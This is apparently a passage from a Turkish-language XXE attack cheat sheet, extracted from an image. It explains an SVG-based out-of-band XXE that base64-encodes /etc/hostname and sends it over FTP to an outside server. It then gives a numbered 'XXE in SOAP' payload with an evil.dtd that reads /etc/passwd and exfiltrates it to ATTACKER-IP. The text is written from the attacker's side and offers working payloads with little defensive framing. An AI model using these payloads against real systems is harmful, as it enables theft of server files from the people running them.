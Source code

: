 - `%data` entity’si, PHP filtresi kullanarak `/etc/hostname` dosyasının içeriğini **base64 olarak encode** ediyor.

- `%param1` entity’si, `exfil` adlı bir entity tanımlıyor. Bu entity ise, bir **FTP sunucusuna** (örnek: `ftp://example.org:2121/`) bu base64 kodlanmış dosya içeriğini yollamaya çalışıyor.

##### Ne oluyor?

1. Hedef sunucu `xxe.svg` dosyasını işlerken `DOCTYPE` içindeki `%sp;` sayesinde dışarıdaki `xxe.xml` dosyasını indiriyor.

2. Bu dış dosyada, `%data` ile `/etc/hostname` dosyasının base64 hali elde ediliyor.

3. `%param1` ile `exfil` entity’si tanımlanıyor ve bu entity “`ftp://example.org:2121/BASE64_ENCODED_DATA`” adresine veri gönderiyor.

4. SVG içindeki `&exfil;` entity'si bu FTP çağrısını tetikliyor.

5. Böylece `/etc/hostname` dosyası içeriği hedef sunucudan **FTP ile dış dünyaya sızdırılmış oluyor**.

- Eğer FTP çıkışı yoksa, `http://...`, `gopher://...` veya `dns://...` gibi başka protokollerle de veri sızdırabiliriz.

##### Özet

- **SVG dosyası içine XXE yükledik.**
- **Dışarıdan bir DTD dosyası çağrılıyor.**
- Dış DTD, hedef dosyanın içeriğini base64 encode edip FTP’ye gönderiyor.
- Hedef sunucu, bu SVG’yi işlerken dosya içeriğini bizim kontrolümüzdeki sunucuya **Out-Of-Band** olarak sızdırıyor.

##### Neden Önemli?

- Doğrudan hedeften veri almak mümkün değilse (örneğin direkt response’a veri gelmiyorsa),
- Bu tür OOB yöntemlerle dosya sızdırmak mümkün olur.
- Ayrıca base64 kullanımı, dosya içeriğinin bozulmadan, güvenli şekilde gönderilmesini sağlar.


### 99- XXE SOAP İçinde

```xml
<soap:Body>
  <foo>
    <![CDATA[
    <!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://ATTACKER-IP:PORT/evil.dtd"> %dtd;]>
    <xxx/>
    ]]>
  </foo>
</soap:Body>
```

`evil.dtd` dosyasını saldırgan sunucuda barındır:

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY exfil SYSTEM 'ftp://ATTACKER-IP/%file;'>">
%eval;
```
